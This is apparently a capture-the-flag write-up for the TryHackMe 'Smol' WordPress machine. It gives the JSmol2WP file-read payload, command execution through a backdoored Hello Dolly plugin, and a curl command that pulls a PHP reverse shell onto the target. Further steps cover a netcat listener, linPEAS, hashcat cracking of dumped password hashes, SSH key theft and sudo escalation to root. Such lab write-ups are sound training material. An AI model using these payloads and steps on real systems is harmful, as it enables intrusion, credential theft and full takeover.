



# Smol
## Challenge Description
At the heart of **Smol** is a WordPress website, a common target due to its extensive plugin ecosystem. The machine showcases a publicly known vulnerable plugin, highlighting the risks of neglecting software updates and security patches. Enhancing the learning experience, Smol introduces a backdoored plugin, emphasizing the significance of meticulous code inspection before integrating third-party components.

Quick Tips: Do you know that on computers without GPU like the AttackBox, **John The Ripper** is faster than **Hashcat**?

Questions:
- What is the user flag?
- What is the root flag?

As always, you can find the challenge at the following link: [TryHackMe Smol](https://tryhackme.com/room/smol).

## Table of Contents
- Exploring the Vulnerable Plugins
    - First Vulnerable Plugin
    - Second Vulnerable Plugin
- Gaining a Foothold of the Machine - First Flag
- Escalating One User at a Time - Second Flag
- Takeaways: to WP or not WP?
    - First Plugin Analysis
    - [Second Plugin Analysis](#second-plugin-analysis)

## Exploring the Vulnerable Plugins
Before we dive in, is it Christmas? It's a bit confusing (and intimidaing) to see so many hints in the description of a **medium** difficulty challenge, but hey I won't complain.

So not even starting the machine, we know already that:
- This is a vulnerable wordpress (wp) web application
- There are two vulnerable plugins:
    - One is outdated
    - The other has a backdoor

Let's go find them out!

To access this website, you'll first need to add the Machine's ip address to your `/etc/hosts` file. On linux, you can run the following command: 
```bash
sudo nano /etc/hosts # or whatever text editor you're comfortable with
```
Then add the following line at the end of the file:
```text
MACHINE_IP smol.thm www.smol.thm
```
Now save (ctrl x + y + ENTER on nano) and we are ready to access the website!


The website itself is not very interesting. There are a few articles with ChatGPT text but nothing too croccante. As with every web challenge, let's see if the server was a bit too chatty and sent us something useful. 

### First Vulnerable Plugin

While there isn't anything that screams "hack me!", a javascript file did catch my eye:


JSmol? Like the name of this challenge? And it's under plugins too?! This must be one of the vulnerabilities described in the challenge, let's see what google has to say.

A quick search reveals that this plugin, JSmol2WP, has a SSRF vulnerability that allows us to read files on the server! You can read more about CVE-2018-20463 at [Nist's website](https://nvd.nist.gov/vuln/detail/CVE-2018-20463), which hopefully still exists [alongside CVEs](https://www.forbes.com/sites/kateoflahertyuk/2025/04/16/cve-program-funding-cut-what-it-means-and-what-to-do-next/) when you read this writeup...

Anyways, we can exploit this using the following Proof of Concept (PoC) provided by [sullo on github](https://github.com/sullo/advisory-archives/blob/master/wordpress-jsmol2wp-CVE-2018-20463-CVE-2018-20462.txt):

```text
http://smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php
?isform=true
&call=getRawDataFromDatabase
&query=php://filter/resource=../../../../wp-config.php
```
Click enter and you'll have access to the wp-config file!


In case you're unfamiliar with wordpress, wp-config is a php file that contains some pretty sensitive information, such as the username/password for the user database. I redacted the password in the screenshot above to comply with TryHackMe's policy, but if you followed my steps you should see a long, plain-text password instead of REDACTED.

With these credentials, we can shoot a shot at accessing wp-admin, which is the control pannel of wordpress. Entering the username wpuser and that password at `http://smol.thm/wp-admin` gives us access to the behind the scenes of this application.

### Second Vulnerable plugin 
Now that we are on the admin console, let's explore a little bit. On the `Pages` tab, there is an unpublished document called `Webmaster Tasks!!`



Inside, there are a bunch of tasks, but one in particular seems pretty sensitive:
```text
1- [IMPORTANT] Check Backdoors: Verify the SOURCE CODE of "Hello Dolly" plugin as the site's code revision.
```

_Daje_! The second vulnerable plugin is `Hello Dolly`, a staple of wordpress. The plugin itself normally does not have backdoors, so this must be some custom version. Lucky for us JSmol2WP gave us a trick to read any file we want, so with a bit of directory traveral we get:
```text
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../hello.php
```

Why that path? Well amico mio here's what we know about the app:
- By default Hello Dolly is stored in a file called hello.php
- This file is located, by default, in wp-content, which is two directories above JSmol2WP
- Hence, we need to climb two directories `../../` to get to the file we need!

The backdoor here is a little less straight forward, as it is a custom one that we can't just google like the last one. If you want an in-depth explanation of how this works, [jump to the end of the writeup for an explenation](#second-plugin-analysis). If you are here just for that sweet flag, keep reading.

The backdoor in `Hello Dolly` allows us to execute arbitrary commands on the host machine. We can do this from wp-admin by appending at the end of the page `?cmd=[COMMAND]`. For example we can do:
```text
http://www.smol.thm/wp-admin/edit.php?cmd=whoami
```
And we should see on the up left corner:


## Gaining a Foothold of the Machine - First Flag

Great! Now we are this close to owning the machine, but wait! I know what you're thinking, you wanna go to revshells.com and plug a shell in there. Well, that's what I tried, but there must be some restriction on this backdoor since doing so results into nothing.

We need to get a bit smarter amico mio, after trying some commands one caught my eye:
```bash
# Opens a web server at http:/smol.thm:9000 at the root directory, DON'T include this comment in the actual command
python -m http.server 9000 -d / 
```
Putting this in the `?cmd=` field makes the page hand, which means it's working! Now we can get a look of the filesystem in the machine.

Now this doesn't allow us to spawn a reverse shell **yet**, but it does give us some intel.

For example, one thing I tried was to download [a reverseshell from pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and then access it at `http://smol.thm/wp-admin/php-reverse-shell.php`, but this just returned a blank page.

From the python server, I could see that the reverse shell file was blank (just click on it and you'll see downloaded a 0 byte file), which means that `www-data` doesn't have write privileges in `/var/www/wordpress/wp-admin`.

Let's find another directory, `/tmp/` should be a good guess. And it works!



If you are wondering how I got the shell in there, here's a step by step guide:
- Download the pentestmonkey script from the link above
    - REMEMBER! you need to modify the ip and port field with your info or it won't work!
- Open a python server on **your** machine in the directory with your script
```bash
python3 -m http.server 8000
```
- Download the script on the target machine:
```text
http://smol.thm/wp-admin/pages.php?cmd= curl -s http://[YOUR_IP]:8000/php-reverse-shell.php -o /tmp/rev.php
```

Now just activate a listener on your machine:
```bash
nc -nlvp 4444 # Or whatever port you put in the script
```

And now activate it!
```text
http://smol.thm/wp-admin/pages.php?cmd=php /tmp/rev.php
```
We're in!

Now let's make our shell a little bit prettier by running:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Then let's do the folliwng to get access to `clear`:
```bash
export TERM=xterm
```
and lastly, let's run this to get arrow keys and ctrl+c:
press ctrl+z
```bash
stty raw -echo; fg
```

Now that we have a somewhat stable shell, let's find that first flag!
This should be in a home folder, but our `www-data` user doesn't have permission to access any. This means that we need to find a way to escalate our privileges to at least to another user.

For this, we are gonna use a tool called [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) to point us in the right direction.

Since outbound connections don't seem to be allowed, let's first download the script on **our own** machine and then wget it with a python server. In other words on your attacking machine run:
```bash
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh
python3 -m http.server 8000
```
Now on **the target machine** run:
```bash
wget http://[YOUR_IP]/linpeas.sh -o /tmp/linpeas.sh
cd /tmp
chmod +x linpeas.sh
./linpeas.sh
```

Now we just have to get up (hard, I know), grab an espresso and wait for linpeas to finish analyzing.

Out of all the findings of this script, one seems particularly interessante. There is a backup file in `/opt`, a directory that's usually empty.

It's a database! Jackpot! let's crack it open and see what's inside:
```bash
nano wp_backup.sql
```

There is a particular entry inside this database that is going to give us what we want:
```SQL
--
-- Dumping data for table `wp_users`
--

LOCK TABLES `wp_users` WRITE;
/*!40000 ALTER TABLE `wp_users` DISABLE KEYS */;
INSERT INTO `wp_users` VALUES (1,'admin','$P$Bvi8BHb84pjY/Kw0RWsOXUXsQ1aACL1','admin','admin@smol.thm','http://192.168.204.139','2023-08-16 06:58:30','',0,'admin'),(2,'wpuser','$P$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E.','wp','wp@smol.thm','http://smol.thm','2023-08-16 11:04:07','',0,'wordpress user'),(3,'think','$P$B0jO/cdGOCZhlAJfPSqV2gVi2pb7Vd/','think','josemlwdf@smol.thm','http://smol.thm','2023-08-16 15:01:02','',0,'Jose Mario Llado Marti'),(4,'gege','$P$BsIY1w5krnhP3WvURMts0/M4FwiG0m1','gege','gege@smol.thm','http://smol.thm','2023-08-17 20:18:50','',0,'gege'),(5,'diego','$P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1','diego','diego@smol.thm','http://smol.thm','2023-08-17 20:19:15','',0,'diego'),(6,'xavi','$P$BvcalhsCfVILp2SgttADny40mqJZCN/','xavi','xavi@smol.thm','http://smol.thm','2023-08-17 20:20:01','',0,'xavi');
/*!40000 ALTER TABLE `wp_users` ENABLE KEYS */;
UNLOCK TABLES;
```

**DAJE!** That's a lot of hashes, let's get cracking. Now the challenge does say that hashcat is slower on machines without a dedicated gpu. This is not the case for me, so I used that to crack the passwords by doing:

```bash
nano hashes.txt # and then pasted every hash in its own line
hashcat -m 400 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt # This assumes you have rockyou.txt installed at that location
```

As you may have noticed, this is not your classic md5 hash. This is because wordpress uses the PHPass algorithm to store passwords, which is mode 400 in hashcat.

Out of these hashes only the ones for `diego` and `gege` can be cracked. And even then, gege's password doesn't seem to work, but diego's does!

Which means that by running:
```bash
su diego
Enter your password: [password_we_just_cracked]
```

we can log in as diego, and get our first flag!
```bash
cd 
cat user.txt
```

## Escalating One User at a Time - Second Flag
Diego doesn't seem to be very privileged either, but he does seem to have more than `www-data`. For this reason let's run `linpeas.sh` again to see if there's anything new.

```bash
══╣ Possible private SSH keys were found!
/home/think/.ssh/id_rsa
```

Bingo! An exposed ssh key we can download on our host machine. Let's get it by doing:
```bash
# On the target machine
cd /home/think/.ssh/
python3 -m http.server 8000

# On our attacking machine
wget http://smol.thm:8000/id_rsa
ssh -i id_rsa think@smol.thm
```

If you did everything correctly you should now have access to the `think` user!

I have to be honest with you, after this step I got a little stuck. And by a little I mean I started mashing some random commands, or some people say I started "enumerating" the machine.

After some **enumeration** I discovered that think doesn't need a password for gege, which means we can just do
```bash
su gege
```
and we are now gege!

Why gege you might ask? Gege has another backup file in its home folder, which we can now access... if we knew the password.

But wait we do! We cracked gege's password when we compromised diego, and that's exactly what we needed.
```bash
unzip wordpress.old.zip
Password: [Gege's cracked hash]
```

Guess what? In this past version, the user `xavi` has access over the database, which means we can do:
```bash
# From gege's home
cd wordpress.old
cat wp-config.php
```

And we will get:
```php
// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'xavi' );

/** Database password */
define( 'DB_PASSWORD', '[REDACTED]' );
```

We can now use that password to access the `xavi` user
```bash
su xavi
```

Amici miei, we are at the end of the line. There's no more user to pwn, which means that now it's root's turn! A quick check on xavi's privileges will confirm that we just won:
```bash
xavi@smol:/home/gege/wordpress.old$ sudo -l
[sudo] password for xavi: 
Matching Defaults entries for xavi on smol:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User xavi may run the following commands on smol:
    (ALL : ALL) ALL
```
**ALL** commands??!

Yes amici, now we can just do:
```bash
sudo su
```

And we are root! Now head over to the home directory to get your flag:
```bash
cd
cat root.txt
```

## Takeaways: to WP or not WP?